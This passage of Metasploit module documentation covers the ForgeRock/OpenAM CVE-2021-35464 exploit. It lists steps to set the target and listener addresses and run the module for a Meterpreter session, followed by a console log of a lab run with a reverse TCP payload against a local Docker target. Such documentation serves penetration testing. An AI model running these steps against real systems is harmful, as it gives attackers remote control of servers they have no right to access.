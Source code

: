 ## Verification Steps

1. Follow the OpenAM instructions listed above to install OpenAM
1. Follow the `ForgeRock with Docker` instructions above to install ForgeRock.
1. Do: `use exploit/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM 14.6.3 on Ubuntu 20.04.2 x64 with Docker version 20.10.7
```
msf6 > use exploit/multi/http/cve_2021_35464_forgerock_openam
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set LHOST docker0
LHOST => 172.18.0.1
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set RPORT 7080
RPORT => 7080
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /openam          yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


```